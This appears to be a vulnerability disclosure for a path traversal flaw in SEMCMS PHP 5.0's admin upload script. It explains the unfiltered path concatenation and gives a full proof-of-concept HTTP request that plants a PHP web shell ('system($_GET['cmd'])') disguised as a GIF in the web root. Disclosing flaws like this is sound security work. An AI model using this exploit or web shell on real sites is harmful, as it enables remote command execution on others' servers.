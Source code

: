 Path Traversal Vulnerability (CWE-22)
1. download_url:https://www.sem-cms.com/TradeCmsdown/php/semcms_php_5.0.zip

2. Path Concatenation**
   The value of `$Imageurl` parameter `../Images/default/` concatenated with the value of `wname` parameter `../../shell`, results in the final storage path:
   `../Images/default/../../shell.jpg` → Equivalent to `../../shell.jpg`.
3. **Directory Traversal Effect**
   Assuming the website root directory is `/var/www/html/`, the final path of the uploaded file would be:
   `/var/www/html/1cj5Mn_Admin/../Images/default/../../shell.jpg` → `/var/www/html/shell.jpg`.

Source Code:

```
// Unfiltered path concatenation 
$Imageurl = $_POST["imageurl"]; // User-controllable 
$newname = test_input($_POST["wname"]) . "." . $ext; // User-controllable 
move_uploaded_file($tmp_name, $Imageurl . $newname);
```

**Cause of Vulnerability:**

- Lack of path normalization for `imageurl` and `wname`.
- No restriction on directory traversal characters (`../`) in user input.

```
POST /1cj5Mn_Admin/SEMCMS_Upfile.php HTTP/1.1
Host: 127.0.0.1:8000
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:135.0) Gecko/20100101 Firefox/135.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: multipart/form-data; boundary=----geckoformboundary7885279eed7384fc280d6248a79275ff
Content-Length: 813
Origin: http://127.0.0.1:8000
Connection: keep-alive
Referer: http://127.0.0.1:8000/1cj5Mn_Admin/SEMCMS_Upload.php?Imageurl=../Images/default/&filed=down_file&filedname=form
Cookie: csrftoken=DC1ie5F1GBasnO3BOxBk7lQ26Ee82lQM; _ga_R1FN4KJKJH=GS1.1.1731064454.3.1.1731065715.0.0.0; _ga=GA1.1.1573617850.1730626906; 4411def9d576984c8d78253236b2a62f__typecho_uid=1; 4411def9d576984c8d78253236b2a62f__typecho_authCode=%24T%24B0Y0sei2u2a444450e82362ddf26030b5474ad3c6; PHPSESSID=va4k07vvgftbnhaomq31s87np1; csrf_cookie_name=d9764bb0c2711f0ce2444be389abeb68; xunruicms_527064877b6d641aa8c19449a87beacc=tmuo9h6ga29i2pel1evd7qh8fs9cpbvg; 527064877b6d641aa8c19449a87beacc_member_uid=1; 527064877b6d641aa8c19449a87beacc_member_cookie=2da9437e47038d33a019eac9432349d7; __tins__4329483=%7B%22sid%22%3A%201739256022241%2C%20%22vd%22%3A%202%2C%20%22expires%22%3A%201739257829169%7D; __51cke__=; __51laig__=2; scusername=%E6%80%BB%E8%B4%A6%E5%8F%B7; scuseradmin=Admin; scuserpass=c4ca4238a0b923820dcc509a6f75849b
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i

------geckoformboundary7885279eed7384fc280d6248a79275ff
Content-Disposition: form-data; name="wname"

../../shell
------geckoformboundary7885279eed7384fc280d6248a79275ff
Content-Disposition: form-data; name="file"; filename="1.jpg" 

GIF89a;
<?php system($_GET['cmd']); ?>
------geckoformboundary7885279eed7384fc280d6248a79275ff
Content-Disposition: form-data; name="imageurl"

../Images/default/
------geckoformboundary7885279eed7384fc280d6248a79275ff
Content-Disposition: form-data; name="filed"

down_file
------geckoformboundary7885279eed7384fc280d6248a79275ff
Content-Disposition: form-data; name="filedname"

form
------geckoformboundary7885279eed7384fc280d6248a79275ff
Content-Disposition: form-data; name="submit"

Submit
------geckoformboundary7885279eed7384fc280d6248a79275ff--

```
![image](https://github.com/user-attachments/assets/3450a85e-0dd7-4998-b4f3-5b802ae0be32)


![image](https://github.com/user-attachments/assets/5ea6ed85-8ac1-49f7-b087-e5da6d21cef6)

